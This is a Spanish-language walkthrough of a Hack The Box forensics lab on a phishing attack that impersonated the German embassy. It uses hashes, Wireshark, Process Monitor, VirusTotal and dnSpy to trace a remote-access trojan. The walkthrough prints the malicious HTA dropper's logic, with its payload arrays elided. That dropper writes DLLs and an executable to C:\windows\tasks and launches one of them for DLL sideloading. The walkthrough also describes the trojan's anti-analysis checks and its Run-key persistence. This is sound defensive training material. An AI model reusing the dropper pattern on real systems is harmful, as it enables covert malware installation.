

# **Descripción**

Este sherlock tiene como temática un sofisticado ataque de phishing realizado por correo. El incidente se desencadenó cuando un miembro del personal recibió un correo que simulaba una invitación oficial de la embajada alemana para despedir al embajador alemán. Luego de la recepción de este correo, saltaron varias alertas en el SIEM de la organización, indicando una posible brecha de seguridad.

---

## **Artefactos**

Estos son los artefactos que proporciona HTB para este Sherlock:

```
$ ls
AppVIsvSubsystems64.dll  downloader.html  EmpireClient.exe  Invitation_Farewell_DE_EMB.hta  Invitation_Farewell_DE_EMB.zip  Invitation.pdf  Logfile.PML  mso.dll  msoev.exe  msoev.pcapng  sheet.hta  unc.js
```

Si bien no todos estos archivos se utilizan para la resolución del lab, igualmente proporcionan contexto adicional.

---

## **Herramientas**

Las utilidades que se necesitan para este lab son:

- [CyberChef](https://gchq.github.io/CyberChef/): Para descifrar una cadena en Base64 y descargar el *output* directamente.
- [Detect It Easy](https://github.com/horsicq/Detect-It-Easy): Para detectar el lenguaje que utiliza un binario.
- [dnSpy](https://github.com/dnSpy/dnSpy): Para decompilar un binario.
- [Process Monitor](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon): Para inspeccionar los eventos realizados por un proceso.
- [VirusTotal](https://www.virustotal.com/gui/home/upload): Para obtener más información sobre un malware.
- [Wireshark](https://www.wireshark.org): Para explorar las comunicaciones de red de una captura.

---

# **Preguntas**

## **1. *The victim visited a web page. The HTML file of the web page has been provided as ‘downloader.html’ sample file.The web page downloads a ZIP file named 'Invitation_Farewell_DE_EMB.zip'. What is the SHA-256 hash of the ZIP file?***

Para obtener el hash SHA256 del archivo `Invitation_Farewell_DE_EMB.zip`, desde Linux se puede utilizar el siguiente comando:

```
$ sha256sum Invitation_Farewell_DE_EMB.zip
5d4bf026fad40979541efd2419ec0b042c8cf83bc1a61cbcc069efe0069ccd27  Invitation_Farewell_DE_EMB.zip
```

El hash SHA256 del archivo ZIP descargado por `downloader.html` es `5d4bf026fad40979541efd2419ec0b042c8cf83bc1a61cbcc069efe0069ccd27`.

---

## **2. *The downloaded ZIP file contains a HTA file, which creates multiple files. One of those files is a signed fileby Microsoft Corporation. In HTA file, which variable’s value was the content of that signed file?***

El contenido del archivo `Invitation_Farewell_DE_EMB.hta` es el siguiente:

> Para mejorar la legibilidad del código utilicé [Code Beautify](https://codebeautify.org) y remplacé el valor de los arrays por `...`.

```html
<html>
  <head>
    <script language="javascript">
      var mso = [...];
      var content = '';
      for (var i = 0x0; i < mso['length']; i++) {
        content += String['fromCharCode'](mso[i]);
      }
      var f = new ActiveXObject('scripting.filesystemobject');
      var msopath = f.GetFolder("C:\\windows\\tasks") + '\\mso.dll';
      var a1 = f['opentextfile'](msopath, 0x2, 0x1, 0x0);
      a1['write']('MZ');
      a1['close']();
      var a2 = f['opentextfile'](msopath, 0x8, 0x1, -0x1);
      a2['write'](content);
      a2['close']();
      var msoev = [...];
      var content2 = '';
      for (var i = 0x0; i < msoev['length']; i++) {
        content2 += String['fromCharCode'](msoev[i]);
      }
      var f = new ActiveXObject('scripting.filesystemobject');
      var msoevpath = f.GetFolder("C:\\windows\\tasks") + '\\msoev.exe';
      var a3 = f['opentextfile'](msoevpath, 0x2, 0x1, 0x0);
      a3['write']('MZ');
      a3['close']();
      var a4 = f['opentextfile'](msoevpath, 0x8, 0x1, -0x1);
      a4['write'](content2);
      a4['close']();
      var app = [...];
      var content3 = '';
      for (var i = 0x0; i < app['length']; i++) {
        content3 += String['fromCharCode'](app[i]);
      }
      var f = new ActiveXObject('scripting.filesystemobject');
      var pathapp = f.GetFolder("C:\\windows\\tasks") + '\\AppVIsvSubsystems64.dll';
      var a5 = f['opentextfile'](pathapp, 0x2, 0x1, 0x0);
      a5['write']('MZ');
      a5['close']();
      var a6 = f['opentextfile'](pathapp, 0x8, 0x1, -0x1);
      a6['write'](content3);
      a6['close']();
      var pdf = [...];
      var content4 = '';
      for (var i = 0x0; i < pdf['length']; i++) {
        content4 += String['fromCharCode'](pdf[i]);
      }
      var f = new ActiveXObject('scripting.filesystemobject');
      var pathpdf = f.GetFolder(".") + '\\Invitation.pdf';
      var a7 = f['opentextfile'](pathpdf, 0x2, 0x1, 0x0);
      a7['write']('%P');
      a7['close']();
      var a8 = f['opentextfile'](pathpdf, 0x8, 0x1, -0x1);
      a8['write'](content4);
      a8['close']();
      window['close']();
    </script>
    <script language="vbscript">
      CreateObject("WScript.Shell").Exec "C:\\windows\\tasks\\msoev.exe"
    </script>
    </script>
  </head>
  <body></body>
</html>
```

Como se menciona la pregunta, el script crea varios archivos en la máquina víctima, estos archivos son:

- `C:\windows\tasks\mso.dll`
- `C:\windows\tasks\msoev.exe`
- `C:\windows\tasks\AppVIsvSubsystems64.dll`
- `.\Invitation.pdf`

Para determinar cual es el archivo firmado por Microsoft, hay que tener el cuenta la siguiente parte del script:

```html
<script language="vbscript">
  CreateObject("WScript.Shell").Exec "C:\\windows\\tasks\\msoev.exe"
</script>
```

En cadenas de ataques, es común que se dropee y ejecute binarios legítimos para evadir los sistemas de detección.

Dicho esto, de los archivos generados por el HTA, el binario `msoev` es el único que se ejecuta directamente.

---

## **3. *The threat actor was acting as an embassy of a country. Which country was that?***

Uno de los artefactos del lab y que también es uno de los archivos creados por `Invitation_Farewell_DE_EMB.hta` es un archivo PDF.

Este PDF se llama `Invitation.pdf`.


El atacante se hacía pasar por la embajada alemana (`Germany`).

---

## **4. *The malware communicated with a chatting platform domain. What is the domain name (inclusive of sub domain) the malware connects to?***

Las comunicaciones realizadas por el binario se pueden inspeccionar cargando la captura `msoev.pcapng` en [Wireshark](https://www.wireshark.org).

Teniendo en cuenta que se busca un nombre de dominio, se pueden filtrar los paquetes con la cadena `dns`.


Estos son todos los paquetes DNS existentes en la captura.

De todas las peticiones, dos hacen referencia a Zulip.


Zulip es una plataforma de chat de código abierto, por lo cual `toyy.zulipchat.com` es el dominio al cual se conecta el malware.

---

## **5. *How many DNS A records were found for that domain?***

Siguiendo con Wireshark, justo después de las peticiones anteriores, se encuentra la respuesta con los registros DNS de tipo A.


Existen `6` registros de tipo A relacionados con el dominio `toyy.zulipchat.com`.

---

## **6. *It seems like the chatting service was running on a very known cloud service using a FQDN, where the FQDN contains the IP address of the chatting domain in reversive format somehow. What is the FQDN?***

Como en la pregunta anterior, las siguientes peticiones PTR se encuentran justo después de la respuesta anterior:


La dirección IP original es `35.171.197.55`, pero como se trata de una petición PTR se encuentra invertida.

Dicho esto, el siguiente paquete en la lista es la respuesta a la petición PTR:


El FQDN del servicio en la nube que utiliza Zulip es `ec2-35-171-197-55.compute-1.amazonaws.com`.

---

## **7. *What was the parent PID (PPID) of the malware?***

Para continuar con esta y las siguientes preguntas es necesario cargar el archivo `Logfile.PML` en [Process Monitor](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon).

En las propiedades se pueden ver los detalles de cada evento y entre estos detalles el Parent PID.


El PPID del binario `msoev.exe` es `4156`.

---

## **8. *What was the computer name of the victim computer?***

En las propiedades del evento anterior, pero esta vez en la pestaña `Process`, se pueden ver la respuesta a esta pregunta y a la siguiente:


El nombre de la máquina en la cual se ejecutó el malware fue `DESKTOP-O88AN4O`.

---

## **9. *What was the username of the victim computer?***

Teniendo en cuenta la imagen anterior, el usuario que ejecutó el malware fue `TWF`.

---

## **10. *How many times were the Windows Registry keys set with a data value?***

Para determinar la cantidad de veces que se establecieron valores en el registro de Windows, es necesario añadir un nuevo filtro.

En este caso, la operación debería ser `RegSetValue`.



Con este filtro añadido, solo se listan los siguientes eventos:


De todos los eventos que existen en `Logfile.PML` solo quedan `11`.


---

## **11. *Did the malicious mso.dll load by the malware executable successfully?***

Con la funcionalidad `Find...` se puede buscar directamente por la cadena `mso.dll`

En la siguiente imagen se ve la lista de módulos cargados por el binario y la DLL.


Esto confirma que `yes`, el malware cargó la DLL correctamente.

---

## **12. *The JavaScript file tries to write itself as a .bat file. What is the .bat file name (name+extension) it tries to write itself as?***

Con la web de [VirusTotal](https://www.virustotal.com/gui/home/upload) se puede obtener más información sobre `unc.js`.

Una de las formas de realizar la búsqueda es a través del hash del archivo.

```
$ md5sum unc.js
83bd20c01e9d54dc72a7cf9e8671592f  unc.js
```

Como era obvio, la plataforma también marca al archivo como malicioso.


En la pestaña `BEHAVIOR` se pueden ver los archivos que escribe el malware, entre ellos un archivo BAT.


Por lo que el malware intenta alojarse a si mismo como `richpear.bat`.

---

## **13. *The JavaScript file contains a big text which is encoded as Base64. If you decode that Base64 text and write its content as an EXE file. What will be the SHA256 hash of the EXE?***

Siguiendo con el script `unc.js`, el texto en Base64 se encuentra en la línea 28.

El binario se puede descifrar y descargar desde la web de [CyberChef](https://gchq.github.io/CyberChef/).


En base a los primeros dos caracteres (`MZ`) o también conocido como *Magic Number*, se puede confirmar que el output es un binario.

Una vez descargado el archivo, el hash SHA256 se puede obtener con el siguiente comando:

```
$ sha256sum download.exe
db84db8c5d76f6001d5503e8e4b16cdd3446d5535c45bbb0fca76cfec40f37cc  download.exe
```

El hash del binario es `db84db8c5d76f6001d5503e8e4b16cdd3446d5535c45bbb0fca76cfec40f37cc`.

---

## **14. *The malware contains a class Client.Settings which sets different configurations. It has a variable ‘Ports’ where the value is Base64 encoded. The value is decrypted using Aes256.Decrypt. After decryption, what will be its value (the decrypted value will be inside double quotation)?***

Con la utilidad [Detect It Easy](https://github.com/horsicq/Detect-It-Easy) se puede detectar el lenguaje utilizado por el binario `download.exe`.


Teniendo en cuenta de que se trata de un binario .NET, la herramienta ideal para este caso es [dnSpy](https://github.com/dnSpy/dnSpy).

Para ver el valor de la variable `Ports` hay que poner un *breakpoint* en su línea e iniciar la depuración.


Cuando el proceso avanza una línea más después del *breakpoint*, se utiliza la variable `Key` para descifrar el valor de `Ports`.

Por lo tanto, el valor de la variable `Ports` es `666,777,111,5544`

---

## **15. *The malware sends a HTTP request to a URI and checks the country code or country name of the victim machine. To which URI does the malware sends request for this?***

La función `GetCountryName()` se encuentra en la clase `Client.Helper.Antisng`.


Esta función es la que detecta el nombre del país de la máquina víctima en la que se ejecuta el malware, o sea `download.exe`.

En esta clase también existe la función `GetCountryCode()`, pero esta se encarga de detectar el código del país.

De todas formas, ambas funciones establecen las mismas dos variables al inicio.


La URL a la que se realiza la petición web es `http://ip-api.com/json/`.

---

## **16. *After getting the country code or country name of the victim machine, the malware checks some country codes and a country name. In case of the country name, if the name is matched with the victim machine’s country name, the malware terminates itself. What is the country name it checks with the victim system?***

Siguiendo con la clase `Client.Helper.Antisng`, anterior a las funciones de la pregunta anterior se encuentra `GetSNG()`.


La comparación se realiza con el código de varios países, pero con un solo nombre de país.


El nombre del país que se compara con el de la máquina víctima es `Russia`.

---

## **17. *As an anti-debugging functionality, the malware checks if there is any process running where the process name is a debugger. What is the debugger name it tries to check if that’s running?***

La funcionalidad que comprueba si se ejecuta el binario con un *debugger* se encuentra en la clase `Client.Helper.Anti_Analysis`.

La función se llama `RunAntiAnalysis()`.


El proceso que se comprueba que no este en ejecución es `dnSpy`.

---

## **18. *For persistence, the malware writes a Registry key where the registry key is hardcoded in the malware in reversed format. What is the registry key after reversing?***

Para esta y la última pregunta se utiliza la misma función.

La función se llama `Install()` y se encuentra en la clase `Client.Install.NormalStartup`.

Dentro de todas sus instrucciones, hace uso de un condicional que comprueba que la ejecución del binario dispone de privilegios de administrador.

En caso de no tener estos privilegios, se utiliza el registro de Windows para persistencia.


Desde Linux se puede revertir la cadena con el siguiente comando:

```
$ echo '\\nuR\\noisreVtnerruC\\swodniW\\tfosorciM\\erawtfoS' | rev
Software\Microsoft\Windows\CurrentVersion\Run\
```

Con el añadido de la primera parte relacionada con el usuario actual (`HKEY_CURRENT_USER`), la clave del registro utilizada sería `HKCU\Software\Microsoft\Windows\CurrentVersion\Run\`.

---

## **19. *The malware sets a scheduled task. What is the Run Level for the scheduled task/job it sets?***

Por último y en relación con la pregunta anterior, en caso de que el binario se ejecute con privilegios de administrador se crearía una tarea programada.


Esta tarea tendría el nivel de ejecución `highest`.
